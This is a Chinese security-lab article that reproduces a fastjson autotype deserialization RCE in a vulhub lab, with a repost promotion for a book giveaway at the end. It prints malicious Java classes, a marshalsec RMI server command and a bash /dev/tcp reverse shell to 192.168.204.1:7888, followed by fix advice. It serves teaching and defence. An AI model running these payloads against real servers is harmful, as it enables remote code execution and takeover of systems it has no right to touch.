 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/lRyU_Qf1FhpzMH9TGqRnhQ)

![](https://mmbiz.qpic.cn/mmbiz_png/aPmkR80bcV2hYQvLId63jWBnTQQ8FjPHEwwQwobuPPhCtO42vwKXiarNLnic8vJErUXfpw5vmxdLztGSKJgUoDew/640?wx_fmt=png)

利用前提: fastjson <=1.2.68, 打开了 autotype

*   **搭建环境**
    ========
    

使用 vul-hub 搭建漏洞环境

![](https://mmbiz.qpic.cn/mmbiz_png/aPmkR80bcV2hYQvLId63jWBnTQQ8FjPHxwpOLUfApT0Ro3ULAjyE2obOZrbaZwMfphZPg7EnT7HqiaSVKuXcIqA/640?wx_fmt=png)

访问搭好的环境看到 json 数据就表示搭建成功

![](https://mmbiz.qpic.cn/mmbiz_png/aPmkR80bcV2hYQvLId63jWBnTQQ8FjPHfX3HCfLomdlykvglYibqAA2k78yDdkCGtdvY4rxTzA61CicyicNTnTtNQ/640?wx_fmt=png)

*   **搭建攻击方 web 环境  
    **
    ===================
    

假设攻击机为 A   被攻击机为 B

在 A 上搭好 web 服务和 rmi 服务, 并且能够让 B 访问主机 A

恶意类如下, 在 / tmp 下创建 success 文件夹

```
import java.lang.Runtime;
import java.lang.Process;

public class TouchFile {
   static {
       try {
           Runtime rt = Runtime.getRuntime();
           String[] commands = {"touch","/tmp/success"};
           Process pc = rt.exec(commands);
           pc.waitFor();
       } catch (Exception e) {
           // do nothing
       }
    }
}
```

编译好 class 文件后搭建 rmi 服务

*   **搭建攻击方 RMI 服务  
    **
    ===================
    

搭建 rmi 服务需要用到 marshalsec

```
java -cp marshalsec-0.0.3-SNAPSHOT-all.jarmarshalsec.jndi.RMIRefServer"http://192.168.204.1/fastjson/#TouchFile" 9999
```

注: 恶意类的 class 文件前要加 #, 而且不需要加文件后缀

![](https://mmbiz.qpic.cn/mmbiz_png/aPmkR80bcV2hYQvLId63jWBnTQQ8FjPHfUADckmBUeicdzWau4oibj2I26Aia1xS7qoShkMBJMMicq0pcUU35sEAicw/640?wx_fmt=png)

*   **构造恶意请求  
    **
    =============
    

注意红色框重点  RMI 服务后面跟 A 主机开放的域名 (ip): 端口 / 恶意类名称

![](https://mmbiz.qpic.cn/mmbiz_png/aPmkR80bcV2hYQvLId63jWBnTQQ8FjPHaFkKZVFBTaIISeduth1dFRgub157ZlkH0rialqEfGhzybXLcOTuVH2g/640?wx_fmt=png)

发送恶意请求后, rmi 监听的口会收到 B 主机的连接并读取恶意类, 如果没有监听到就代表失败了

![](https://mmbiz.qpic.cn/mmbiz_png/aPmkR80bcV2hYQvLId63jWBnTQQ8FjPHeUFnJib290flK5Yxboh1RtIrAQ17Ubn3iatuobmejYqrBN5jHxsTgnkg/640?wx_fmt=png)

响应包如下

![](https://mmbiz.qpic.cn/mmbiz_png/aPmkR80bcV2hYQvLId63jWBnTQQ8FjPHqzMQZoArfwUvpBGBfHAVbKEnRib0Z1iaKU6IvJoD9KNTJ33Ibn0oT8gQ/640?wx_fmt=png)

*   **查看命令是否被执行  
    **
    ================
    

使用 docker ps

和 docker exec -it (镜像 id) /bin/bash 进入 docker 搭建好的虚拟机内

![](https://mmbiz.qpic.cn/mmbiz_png/aPmkR80bcV2hYQvLId63jWBnTQQ8FjPH6QT526MjQ8QymGE1XjxBD4rU0ZaLMpNAGdehiablkM7aLxibgZ3L7aLg/640?wx_fmt=png)

发现 / tmp/success 创建成功 代表恶意类中的代码被成功执行

![](https://mmbiz.qpic.cn/mmbiz_png/aPmkR80bcV2hYQvLId63jWBnTQQ8FjPH2TCGzc4Z2rtkMlcIv1icmXsdiaLUmKCN41zPMFIfVMOoDGk4O8tznCIQ/640?wx_fmt=png)

*   **反弹 shell  
    **
    ===============
    

构建恶意类

![](https://mmbiz.qpic.cn/mmbiz_png/aPmkR80bcV2hYQvLId63jWBnTQQ8FjPH5FnbgnfdXb4Df8a3o5m2RJkL9qfh8Tp1lV0QiaudesS6k9FIAhU6cbA/640?wx_fmt=png)

代码如下:

```
import java.lang.Runtime;
import java.lang.Process;

public class ReConn{
   static {
       try {
           Runtime rt = Runtime.getRuntime();
           String[] commands = {"/bin/bash","-c","bash -i>& /dev/tcp/192.168.204.1/7888 0>&1"};
           Process pc = rt.exec(commands);
           pc.waitFor();
       } catch (Exception e) {
           // do nothing
       }
    }
}
```

使用 nc 监听 7888 端口

![](https://mmbiz.qpic.cn/mmbiz_png/aPmkR80bcV2hYQvLId63jWBnTQQ8FjPHWHOufjk1pJx398icj5kl8lSJGbk0xib02evEXjMt5D4v9IaKPgf7St8A/640?wx_fmt=png)

开启 RMI 服务

![](https://mmbiz.qpic.cn/mmbiz_png/aPmkR80bcV2hYQvLId63jWBnTQQ8FjPHwLoUib61Iwk5gZvicsMsU36PCAbj2jqAlBMvk0DHW4ribVlWicDfKbKrSA/640?wx_fmt=png)

恶意请求

![](https://mmbiz.qpic.cn/mmbiz_png/aPmkR80bcV2hYQvLId63jWBnTQQ8FjPHMSPX6AcJXvhfR0mBqYICUhjcK9MSIxkcbfXTAsHVtW7FauoDxSkTFA/640?wx_fmt=png)

结果

![](https://mmbiz.qpic.cn/mmbiz_png/aPmkR80bcV2hYQvLId63jWBnTQQ8FjPHL0rpMcKOf6JbO16jvrOXC0UWwsSHozibe0CUzJNZhBTHmQScfnJPt3Q/640?wx_fmt=png)

*   **批量检测工具 fastjson scan**
    ========================
    

![](https://mmbiz.qpic.cn/mmbiz_png/aPmkR80bcV2hYQvLId63jWBnTQQ8FjPHTjWV1kRqT60ufZw2dbjWojnm0e1icyWaVZ0zY2fgdcgQTG8kY1NzQtw/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/aPmkR80bcV2hYQvLId63jWBnTQQ8FjPHzPorJWXtaTzL1huicsHTevsfUzd1MhrrspK8v2iaBfQcTItsxm9WKusw/640?wx_fmt=png)

*   **修复建议**
    ========
    

    1、升级 Fastjson 到最新版 (>=1.2.68 新增了 safemode, 彻底关闭 autotype)；

    2、WAF 拦截过滤请求包中的 

@type、%u0040%u0074%u0079%u0070%u0065, \u0040type,

\x04type 等多种编码的 autotype 变形；

    3、最少升级到 1.2.48 以上版本且关闭 autotype 选项；升级对应 JDK 版本到 8u191/7u201/6u211/11.0.1 以上。

1.《从实践中学习 TCP/IP 协议》

![](https://mmbiz.qpic.cn/mmbiz_png/96Koibz2dODtdrAu2oiamWGKYAvGMyNQrBLA9vGibTsgcA98M5tTgMDzyUn3HBP2jHZ9gaFVSaeia8nAHx3d3a4VicQ/640?wx_fmt=png)

从理论、应用和实践三个维度讲 TCP/IP；通过 96 个实例带你从实践中学习；结合 Wireshark 和 netwox 工具讲解；详解 ARP、DHCP、DNS、SNMP、Telnet 和 WHOIS 等协议。

**活动详情**

为了感谢一直关注我们 Khan 安全攻防实验室的粉丝们，我们将送出由机械工业出版社赞助的信息安全图书（任选其中一本）

参与规则：

1. 关注 **Khan 安全攻防实验室**公众号  

2. 转发本文至朋友圈并保存至开奖时间不可设置分组（设置分组无效）点击**赞**、**在看**并加上一句祝福语说不定会增加中奖率哦。  

3. 抽奖结束凭朋友圈截图联系我  

上次抽奖的礼品，粉丝非常满意，感谢大家长久以来的支持！

![](https://mmbiz.qpic.cn/mmbiz_png/aPmkR80bcV2hYQvLId63jWBnTQQ8FjPHKE4E2ianU6vs3GEQ7GicF08EQpG96Yv3sPRbqia0vMs8XkDrlkG22vK8g/640?wx_fmt=png)